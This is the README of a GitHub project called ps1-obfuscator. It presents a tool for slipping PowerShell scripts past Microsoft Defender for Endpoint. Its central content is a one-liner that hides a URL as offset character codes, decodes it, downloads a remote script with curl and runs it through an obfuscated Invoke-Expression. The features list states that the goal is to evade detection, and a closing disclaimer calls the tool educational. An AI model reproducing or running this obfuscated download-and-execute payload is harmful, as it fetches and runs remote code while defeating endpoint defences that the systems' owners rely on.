 # ps1-obfuscator

![image](https://github.com/user-attachments/assets/39e165b8-0030-4add-a6e0-902afb6f49ee)

A ps1 obfuscator designed to help run fkmde or other tools for use in environments with Microsoft Defender for Endpoint (MDE).

```
powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)" 
```

## Features
- **URL Obfuscation**: Transforms URL into a series of ASCII values, making them less recognizable to security tools.
- **Random Variable Generation**: Creates random variable names to further obscure the script and reduce the chance of detection.
- **CMD Compatibility**: The generated obfuscated script can be executed in the Windows Command Prompt, allowing for seamless integration into various workflows.
  
## Disclaimer
This tool is intended for educational and security research purposes only. The author is not responsible for misuse or for any damage that may occur from using this tool. It is the end user's responsibility to comply with all applicable laws and regulations. The use of this tool against targets without prior mutual consent is illegal.

## Credits
- This obfuscation technique was observed in a live Security Operations Center (SOC) incident and adapted for red-teaming purposes.
